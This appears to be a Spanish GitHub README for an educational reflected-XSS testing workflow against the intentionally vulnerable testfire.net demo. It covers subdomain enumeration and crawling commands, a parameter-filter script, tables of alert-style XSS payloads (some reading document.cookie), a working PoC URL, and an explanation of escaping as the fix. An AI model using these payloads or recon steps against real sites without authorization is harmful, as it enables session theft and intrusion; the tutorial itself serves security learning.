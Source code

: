 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Agregar HTTP Headers personalizados en Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_token] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener token github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<!-- TOC END -->
    <td valign="top" colspan="3" class="bb">
				<div class="fl" style="width: 99%;">
				<h1>Search Results</h1>
				<p>No results were found for the query:<br /><br />
				<script>alert(document.location)</script>
				</div>    
    </td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*

